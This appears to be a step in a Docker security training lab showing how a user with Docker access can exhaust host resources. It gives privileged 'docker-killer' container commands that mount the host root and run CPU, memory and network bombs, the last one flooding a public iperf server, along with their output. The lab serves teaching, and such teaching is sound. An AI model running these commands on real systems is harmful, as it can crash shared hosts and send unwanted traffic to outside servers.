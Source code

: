 ## Denial of Service

## Please Note: VM might freeze/crash for these exercises.

###### A malicious user with access to docker can consume host-resources such as CPU, Memory and Network by launching a malicious container. This can cause a Denial-of-Service attack making other services inaccessible.

##### Step 1:

* Open Terminal

![](img/Open-Terminal.png)


### CPU Bomb

##### Step 1:

*  Run `docker run --rm -ti --privileged -v /:/rootfs -e "TIMEOUT=5"  monitoringartist/docker-killer cpubomb`

```commandline
root@we45:~# docker run --rm -ti --privileged -v /:/rootfs -e "TIMEOUT=5"  monitoringartist/docker-killer cpubombcpubomb - duration 5s
Test: excessive CPU utilization - one proces per processor with empty cycles
CPU:  90% usr  10% sys   0% nic   0% idle   0% io   0% irq   0% sirq
CPU: 100% usr   0% sys   0% nic   0% idle   0% io   0% irq   0% sirq
CPU: 100% usr   0% sys   0% nic   0% idle   0% io   0% irq   0% sirq
CPU: 100% usr   0% sys   0% nic   0% idle   0% io   0% irq   0% sirq
CPU:  98% usr   1% sys   0% nic   0% idle   0% io   0% irq   0% sirq
/test.sh: line 101:     6 Killed                  timeout -t ${TIMEOUT} -s KILL bash -c $@    
```


### Memory Bomb

##### Step 1:

* Run `docker run --rm -ti --privileged -v /:/rootfs -e "TIMEOUT=5" monitoringartist/docker-killer membomb`

```commandline
root@we45:~# docker run --rm -ti --privileged -v /:/rootfs -e "TIMEOUT=5" monitoringartist/docker-killer membomb
membomb - duration 5s
Test: excessive memory (RAM+swap) utilization
Mem: 1180028K used, 869832K free, 2900K shrd, 70124K buff, 575144K cached
Mem: 1704688K used, 345172K free, 2900K shrd, 70124K buff, 575144K cached
Mem: 1984284K used, 65576K free, 2688K shrd, 9100K buff, 253900K cached
Mem: 1993548K used, 56312K free, 2680K shrd, 96K buff, 69932K cached
Mem: 1994392K used, 55468K free, 2680K shrd, 244K buff, 52960K cached
/test.sh: line 101:     6 Killed                  timeout -t ${TIMEOUT} -s KILL bash -c $@
```   

### Network Bomb

##### Step 1:

* Run `docker run --rm -ti --privileged -v /:/rootfs -e "TIMEOUT=5" monitoringartist/docker-killer netbomb`

```commandline
root@we45:~# docker run --rm -ti --privileged -v /:/rootfs -e "TIMEOUT=5" monitoringartist/docker-killer netbomb
netbomb - duration 5s
Test: excessive network utilization - iperf against public iperf server
Used command: iperf -c iperf.scottlinux.com -t 4 -i 1 -p 5201 -u
------------------------------------------------------------
Client connecting to iperf.scottlinux.com, UDP port 5201
Sending 1470 byte datagrams, IPG target: 11215.21 us (kalman adjust)
UDP buffer size:  208 KByte (default)
------------------------------------------------------------
[  3] local 172.17.0.2 port 50153 connected with 45.33.39.39 port 5201
[ ID] Interval       Transfer     Bandwidth
[  3]  0.0- 1.0 sec   131 KBytes  1.07 Mbits/sec
[  3]  1.0- 2.0 sec   128 KBytes  1.05 Mbits/sec
[  3]  2.0- 3.0 sec   128 KBytes  1.05 Mbits/sec
[  3]  3.0- 4.0 sec   128 KBytes  1.05 Mbits/sec
[  3]  0.0- 4.0 sec   514 KBytes  1.05 Mbits/sec
[  3] Sent 358 datagrams
/test.sh: line 101:     6 Killed                  timeout -t ${TIMEOUT} -s KILL bash -c $@
```


##### Stop all running docker containers

* Run `clean-docker` to stop all the containers

```commandline
root@we45:~$ clean-docker
```
